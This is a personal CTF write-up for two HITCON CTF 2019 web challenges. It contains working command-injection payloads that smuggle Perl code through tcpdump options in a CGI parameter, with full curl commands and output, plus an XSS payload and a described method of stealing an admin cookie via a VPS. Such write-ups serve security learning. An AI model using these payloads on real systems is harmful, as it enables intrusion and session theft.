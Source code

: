 ```yaml
---
layout : post
title : HITCON CTF 2019
---
```

HITCON CTF is a great hacking competition in CTF world.
I solved 2 web challanges of Orange. So here is writeup.
<h2>1. Virtual Public Network</h2>
I have read Orange's blog, I can understand that is a story of Orange when he hack VPN products.<br>
Note that `return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;` and `# backdoor :)` code, we can see that our shell will be located at `./tmp/`.<br>
But when using Orange's payload, I can not get the output as expect. So I get a problem and should be redirect output to shell with `>` and read it with _curl_
Remember that it requires a $tpl parameter to get filename of shell
`my $tpl = CGI::param("tpl");
...
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);`
So I can create a final payload like this: `-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball` and urlencode it<br>
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball`<br>
`$READ_FLAG$
FLAG
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old`<br>
Encode `$` to read flag `$READ_FLAG` because $ will be interpreted as bash variable in Perl language and I can get it like this `\x24`. Using `sh -c '[command]'` to read flag because it is a binary file.<br>
Finall payload: `-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`<br>
Flag: `hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}`
Reference: 
<h2>Bounty Pl33z</h2>
This is a XSS challenge. When I click submit bugs it will redirects to `https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361`
So using _${alert()}`-"-(`${`_ to trigger XSS, so setup a VPS and redirect challenge's network to get admin's cookie (=flag)

Thank you for a great CTF!
